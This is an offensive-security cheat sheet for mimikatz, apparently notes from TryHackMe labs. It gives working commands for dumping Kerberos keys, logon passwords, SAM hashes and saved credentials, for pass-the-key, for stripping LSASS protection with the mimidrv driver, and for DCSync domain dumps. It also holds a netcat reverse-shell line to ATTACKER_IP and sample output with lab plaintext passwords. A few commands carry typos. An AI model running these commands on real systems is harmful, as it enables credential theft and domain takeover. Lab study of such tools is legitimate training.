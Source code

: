 
### Required:
- NT AUTHORITY SYSTEM priveleges
- mimikatz binary on the system (location: `/usr/share/mimikatz`)

### Setting up
Do this before any of the next options
```
privilege::deubg    // NOTE: only follow through if response is "[20] OK", otherwise (when it throws an error) commands will run but not work correctly.
// Possible error: ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061 --> not ran as admin

token::elevate      // Impersonates admin token
```

### Dumping kerberos keys + pass the key
(pass the key is also called "Overpass the hash")
```
sekurlsa::ekeys
token::revert                                                                 // required for passing the hash
sekurlsa::pth /user:USER /domain:DOMAIN /rc4:RC4_HASH /run:"COMMAND"          // With RC4 hash
sekurlsa::pth /user:USER /domain:DOMAIN /aes128:AES128_HASH /run:"COMMAND"    // With AES128 hash
sekurlsa::pth /user:USER /domain:DOMAIN /aes256:AES256_HASH /run:"COMMAND"    // With AES256 hash
```
Note: if you have `nc64.exe` on the system, use the following payload for a reverse shell:
```
c:\Windows\Temp\nc64.exe -e cmd.exe ATTACKER_IP ATTACKER_PORT
```
Note 2: because the "credentials" are injected after you've passed the key, if `winrs.exe` is available, you can use it without giving credentials:
```
winrs.exe -r:THMIIS.za.tryhackme.com cmd      // Spawns a shell on the THMIIS machine of the za.tryhackme.md domain.
```

### Dumping logonpasswords / handling "ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)"
```
mimikatz # sekurlsa::logonpasswords  
// If this gives the "ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)"
// When you get this error, it means the LSASS is protected. You need the "mimidrv.sys" for this. (included in the directory)

mimikatz # !+        
// Loads the mimidrv
Expected output:
"
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
"
mimikatz # !processprotect /process:lsass.exe /remove
// Removes the protected state from the LSASS
Expected output:
"
Process : lsass.exe
PID 528 -> 00/00 [0-0-0]
"
mimikatz # sekurlsa::logonpasswords  
// It should work now.
```

### General SAM passwords (local accounts)
```
mimikatz # lsadump::sam
```
Note: Any hashes can be used to pass to SMBClient (including Administrator hashes, combined with `-U Administrator`)

### Windows credential manager
```
sekurlsa::credman  // Dumps all windows credential manager credentials. (saved windows credentials)
```
This will get most credentials, but not the Web credentials. for these, use `Get-WebCredentials.ps1` (you can check if they exist using `vaultcmd /listcreds:"Web Credentials" /all`)
#### Example output
```
PS C:\Tools\Mimikatz> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

736     {0;000003e7} 1 D 26914          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;0025ebf6} 2 F 4320524     THM\thm S-1-5-21-1966530601-3185510712-10604624-1114    (16g,26p)       Primary
 * Thread Token  : {0;000003e7} 1 D 4369062     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # sekurlsa::credman

Authentication Id : 0 ; 34477 (00000000:000086ad)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 8/11/2023 11:29:59 AM
SID               : S-1-5-96-0-0
        credman :

Authentication Id : 0 ; 31779 (00000000:00007c23)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 8/11/2023 11:29:48 AM
SID               :
        credman :

Authentication Id : 0 ; 2485238 (00000000:0025ebf6)
Session           : RemoteInteractive from 2
User Name         : thm
Domain            : THM
Logon Server      : CREDS-HARVESTIN
Logon Time        : 8/11/2023 11:44:59 AM
SID               : S-1-5-21-1966530601-3185510712-10604624-1114
        credman :
         [00000000]
         * Username : thm
         * Domain   : 10.10.237.226
         * Password : jfxKruLkkxoPjwe3
         [00000001]
         * Username : thm.red\thm-local
         * Domain   : thm.red\thm-local
         * Password : Passw0rd123

Authentication Id : 0 ; 2454892 (00000000:0025756c)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 8/11/2023 11:44:57 AM
SID               : S-1-5-90-0-2
```

### Active Directory DCSync attack
###### Required permissions: Domain Replication permissions (Domain Controller / Domain Administrator)
To dump one user, use:
```
privilege::elevate
lsadump::dcsync /domain:DOMAIN /user:USERNAME@DOMAIN                // Note: the ERROR_NOT_UNIQUE error means the DOMAIN name isn't specified
```

To dump everything:
```
privilege::elevate
log dcdump.txt
lsadump::dcsync /domain:DOMAIN /all
```
